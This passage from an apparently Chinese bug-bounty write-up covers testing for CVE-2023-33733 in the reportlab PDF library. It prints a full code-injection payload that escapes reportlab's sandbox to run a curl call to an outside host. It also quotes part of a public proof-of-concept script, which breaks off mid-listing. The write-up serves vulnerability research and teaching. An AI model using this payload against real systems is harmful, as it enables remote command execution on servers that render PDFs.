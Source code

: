 在确认了使用reportlab库之后，白帽子使用了以下payload来确认它是否确实使用了存在漏洞的版本：

    
    
    <para>
    
                  <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('curl https://myhost.com') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
    
                    exploit
    
                    </font>
    
                </para>
    
    generic
    
    515 Bytes
    
    © Guge's Blog

它并没起作用，pdf 已成功生成，但没有 pingbacks
发送到研究人员的服务器。而后白帽子将curl命令更改为ping，wget，希望至少能够获得DNS交互，但依然失败。

这时白帽子开始怀疑应用程序是否真的使用了存在漏洞版本的库，在找到这个答案前，只能通过本地设置来完成了。

白帽子使用 Elyas
存储库中易受攻击的代码，以帮助他可以在本地确认该漏洞：https://github.com/c53elyas/CVE-2023-33733/blob/master/code-
injection-poc/poc.py

    
    
    from reportlab.platypus import SimpleDocTemplate, Paragraph
    
    from io import BytesIO
    
    stream_file = BytesIO()
    
    content = []
    
    def add_paragraph(text, content):
    
        """ Add paragraph to document content"""
    
        content.append(Paragraph(text))
    
    def get_document_template(stream_file: BytesIO):
    
        """ Get SimpleDocTemplate """
    
        return SimpleDocTemplate(stream_file)
    
    def build_document(document, content, **props):
    
        """ Build pdf document based on elements added in `content`"""
    
        document.build(content, **props)
    
    doc = get_document_template(stream_file)
    
    #
    